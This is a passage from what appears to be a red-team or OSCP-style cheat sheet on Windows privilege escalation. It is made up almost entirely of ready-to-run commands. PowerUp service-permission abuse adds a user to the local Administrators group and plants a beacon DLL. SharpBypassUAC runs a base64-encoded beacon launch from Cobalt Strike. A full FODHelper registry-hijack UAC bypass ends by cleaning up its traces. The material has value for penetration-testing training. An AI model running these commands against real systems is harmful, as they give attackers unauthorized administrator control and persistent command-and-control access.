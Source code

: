 For more things to look for (both Windows and Linux), refer to my [OSCP cheat sheet and command reference](https://cas.vancooten.com/posts/2020/05/oscp-cheat-sheet-and-command-reference/).

### PowerUp

```
# Check for vulnerable programs and configs
Invoke-AllChecks

# Exploit vulnerable service permissions (does not require touching disk)
Invoke-ServiceAbuse -Name "AbyssWebServer" -Command "net localgroup Administrators domain\user /add"

# Exploit vulnerable service permissions to trigger stable beacon
Write-ServiceBinary -Name 'AbyssWebServer' -Command 'c:\windows\system32\rundll32 c:\Users\Student355\Downloads\go_dll_rtl_x64.dll,Update' -Path 'C:\WebServer\Abyss'
net stop AbyssWebServer
net start AbyssWebServer 
```

### UAC Bypass

Using [SharpBypassUAC](https://github.com/FatRodzianko/SharpBypassUAC).

```
# Generate EncodedCommand
echo -n 'cmd /c start rundll32 c:\\users\\public\\beacon.dll,Update' | base64

# Use SharpBypassUAC e.g. from a CobaltStrike beacon
beacon> execute-assembly /opt/SharpBypassUAC/SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IHJ1bmRsbDMyIGM6XHVzZXJzXHB1YmxpY1xiZWFjb24uZGxsLFVwZGF0ZQ== 
```

In some cases, you may get away better with running a manual UAC bypass, such as the FODHelper bypass which is quite simple to execute in PowerShell.

```
# The command to execute in high integrity context
$cmd = "cmd /c start powershell.exe"
 
# Set the registry values
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $cmd -Force
 
# Trigger fodhelper to perform the bypass
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
 
# Clean registry
Start-Sleep 3
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force 
```
